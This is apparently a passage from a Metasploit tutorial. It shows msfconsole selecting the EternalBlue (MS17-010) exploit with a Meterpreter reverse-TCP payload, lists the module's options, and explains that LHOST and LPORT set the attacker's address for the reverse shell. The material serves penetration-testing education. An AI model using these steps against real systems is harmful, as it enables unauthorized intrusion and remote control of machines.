 ```shell-session


msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15

payload => windows/x64/meterpreter/reverse_tcp
```

After selecting a payload, we will have more options available to us.

&#x20; Payloads

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

As we can see, by running the `show payloads` command within the Exploit module itself, msfconsole has detected that the target is a Windows machine, and such only displayed the payloads aimed at Windows operating systems.

We can also see that a new option field has appeared, directly related to what the payload parameters will contain. We will be focusing on `LHOST` and `LPORT` (our attacker IP and the desired port for reverse connection initialization). Of course, if the attack fails, we can always use a different port and relaunch the attack.
